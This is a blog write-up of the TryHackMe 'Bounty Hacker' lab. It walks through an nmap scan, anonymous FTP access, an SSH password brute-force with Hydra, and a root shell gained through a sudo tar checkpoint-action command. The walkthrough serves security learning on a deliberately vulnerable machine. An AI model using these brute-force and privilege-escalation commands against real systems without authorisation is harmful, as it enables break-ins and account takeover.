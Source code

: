 ```yaml
---
layout: blog
title: TryHackMe Bounty Hacker Writeup
publishDate: 2023-12-03T12:09:00.000Z
description: Step-by-step walkthrough of TryhackMe Bounty Hacker room. This is
  an easy room, great for learning about Nmap, FTP, Hydra and privilege
  escalation.
tags:
  - tryhackme
  - writeup
---
```

I ran a simple TCP SYN scan using Nmap to find all the open ports. 

```sh
nmap -sS -vv TARGET_IP
```

![](/images/uploads/screenshot-2025-03-22-120746.png)

3 ports were found open:

| Port | Service |
| ---- | ------- |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

As the FTP service was running on an open port, I tried connecting to the FTP server using the username "anonymous" and it worked.

```sh
ftp TARGET_IP
```

I listed all the files in the current directory using the `ls` command.

![](/images/uploads/screenshot-2025-03-22-120832.png)

I downloaded both the files using the `get` command

```sh
get task.txt

get locks.txt
```

The task.txt file contained the name name of the user who wrote the task list.

![](/images/uploads/screenshot-2025-03-22-120704.png)

The locks.txt file was a wordlist, probably containing the password of the user, which I cracked using Hydra by trying to login to the SSH server, which was also running on an open port.

```sh
hydra -l USERNAME -P locks.txt ssh://TARGET_IP
```

![](/images/uploads/screenshot-2025-03-22-120716.png)

Now I could login to the target machine remotely using ssh with this username and password.

```sh
ssh USER@TARGET_IP
```

The user.txt file was found in the `~/Desktop` directory.

The user did not have root access. So, I ran `sudo -l` to find sudo permissions. The user had `/bin/tar` permission.

![](/images/uploads/screenshot-2025-03-22-120723.png)

This allowed me to escalate privileges to root and gain access to a root shell. I used this command to do so.

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Source: [tar | GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)

![](/images/uploads/screenshot-2025-03-22-120731.png)

The root.txt could be found in `/root` directory.
